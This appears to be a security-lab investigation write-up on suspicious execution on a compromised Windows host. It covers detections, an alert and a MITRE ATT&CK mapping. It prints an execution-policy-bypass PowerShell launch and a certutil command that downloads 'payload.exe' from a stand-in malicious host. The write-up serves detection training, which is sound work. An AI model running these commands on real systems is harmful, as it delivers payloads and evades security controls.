




# ⚠️ Investigation 2 – Suspicious Execution

---

## 📌 Overview

This phase captures suspicious command execution activity on the compromised workstation. The attacker leverages native Windows tools and PowerShell to execute commands that bypass standard security controls and enable further actions within the environment.

This behavior is indicative of **living-off-the-land techniques**, where legitimate system utilities are abused to avoid detection.

---

## 🧪 Attacker Activity

---

### 📸 PowerShell Execution

The attacker executed PowerShell with suspicious flags designed to evade security controls.

```powershell id="y9n3ad"
powershell.exe -nop -executionpolicy bypass
```



**Description:**
PowerShell was launched with flags that disable profile loading and bypass execution policy restrictions, allowing scripts to run without standard safeguards.

**Key Evidence:**

- **Execution Policy Bypass:** `-executionpolicy bypass` disables script restrictions
- **No Profile Flag:** `-nop` prevents loading of user or system profiles
- **Interactive Execution:** Indicates manual or semi-automated attacker activity

---

### 📸 LOLBin Abuse (certutil)

The attacker leveraged a native Windows binary to perform potentially malicious actions.

```powershell id="5c3k2f"
certutil.exe -urlcache -split -f http://malicious-site/payload.exe payload.exe
```



**Description:**
The `certutil` utility, a legitimate Windows tool, was used to download a file from an external source. This is a common technique used to evade detection by blending in with normal system activity.

**Key Evidence:**

- **LOLBin Usage:** `certutil.exe` used outside of normal administrative context
- **External Download:** Retrieval of a file from a remote source
- **File Write Activity:** Indicates potential payload delivery

---

## 🔎 Detection

---

### 📸 Suspicious PowerShell Activity (Windows Logs)

This panel detects abnormal PowerShell execution associated with the earlier command activity, specifically focusing on execution policy bypass and suspicious flags.

🔗 **Detection Details:** [View Detection Logic](../detections/suspicious_powershell.md)



**Key Evidence:**

- **Command Line:** PowerShell executed with `-nop` and `-executionpolicy bypass`
- **User Context:** Activity performed by the compromised user
- **Execution Pattern:** Indicates deliberate attempt to evade security controls

---

### 📸 LOLBin Execution Detection (Windows Logs)

This panel identifies the use of legitimate system binaries for suspicious purposes, such as downloading external payloads.

🔗 **Detection Details:** [View Detection Logic](../detections/lolbin_execution.md)



**Key Evidence:**

- **Binary Usage:** Execution of `certutil.exe`
- **Command Arguments:** Indicators of file download activity
- **User Context:** Execution under compromised account

---

## 🚨 Alert

---

### 📸 Suspicious PowerShell Activity Alert

This alert was triggered based on the use of PowerShell with execution policy bypass and related suspicious flags observed during the execution phase.

🔗 **Alert Logic:** [View Alert Configuration](../alerts/suspicious_powershell_alert.md)


**Key Evidence:**

- **Trigger Conditions:** Detection of PowerShell execution with bypass flags
- **Source Host:** Matches the compromised workstation
- **Time Correlation:** Aligns with observed suspicious execution activity

---

## 🧠 Analysis

This phase demonstrates a transition from reconnaissance to **active execution of potentially malicious actions**.

Key indicators include:

- Use of PowerShell with flags designed to bypass security controls
- Abuse of legitimate system binaries (LOLbins) to avoid detection
- Execution of commands that enable payload delivery or further compromise

These behaviors indicate an escalation in attacker activity, moving from information gathering to **execution and potential payload deployment**.

---

## 🧭 MITRE ATT&CK Mapping

| Technique ID | Technique Name                | Description                              |
| ------------ | ----------------------------- | ---------------------------------------- |
| T1059.001    | PowerShell                    | Execution of commands using PowerShell   |
| T1218        | Signed Binary Proxy Execution | Abuse of certutil for malicious purposes |

---

## 🏁 Conclusion

The suspicious execution phase confirms that the attacker has moved beyond reconnaissance and is actively executing commands to expand control within the environment.

This progression sets the stage for **credential abuse and lateral movement**, observed in subsequent phases of the investigation.
